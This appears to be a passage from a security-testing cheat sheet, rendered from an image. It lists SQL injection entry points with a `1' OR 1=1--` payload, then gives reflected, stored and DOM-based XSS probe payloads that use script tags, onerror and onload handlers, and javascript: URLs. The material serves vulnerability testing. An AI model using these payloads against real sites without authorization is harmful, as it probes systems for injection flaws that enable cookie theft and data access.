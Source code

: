 #### **3. Testing Different Injection Points**
- **URL Parameters**: `?id=1' OR 1=1--`
- **POST Data**: Form fields with SQL payloads
- **Headers**: User-Agent, Referer, X-Forwarded-For
- **Cookies**: Cookie values with SQL injection
- **JSON**: `{"id": "1' OR 1=1--"}`

---

## 🚨 **CROSS-SITE SCRIPTING (XSS) REPRODUCTION**

### **1. Reflected XSS**
```html
<!-- Basic alert payloads -->
<script>alert('XSS')</script>
<script>alert(document.domain)</script>
<script>alert(document.cookie)</script>

<!-- Image-based XSS -->
<img src=x onerror=alert('XSS')>
<img src=x onerror=alert(document.domain)>

<!-- Event handler XSS -->
<body onload=alert('XSS')>
<input type=image src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>

<!-- JavaScript execution -->
<script>confirm('XSS')</script>
<script>prompt('XSS')</script>
```

### **2. Stored XSS**
```html
<!-- Persistent payloads for comments, profiles, etc. -->
<script>alert('Stored XSS')</script>
<img src=x onerror=alert('Stored XSS')>

<!-- Advanced stored XSS -->
<iframe src="javascript:alert('XSS')"></iframe>
<object data="javascript:alert('XSS')">
<embed src="javascript:alert('XSS')">
```

### **3. DOM-based XSS**
```javascript
// URL fragment exploitation
#<script>alert('DOM XSS')</script>
#<img src=x onerror=alert('DOM XSS')>

// JavaScript URL schemes
javascript:alert('DOM XSS')
javascript:alert(document.domain)
```
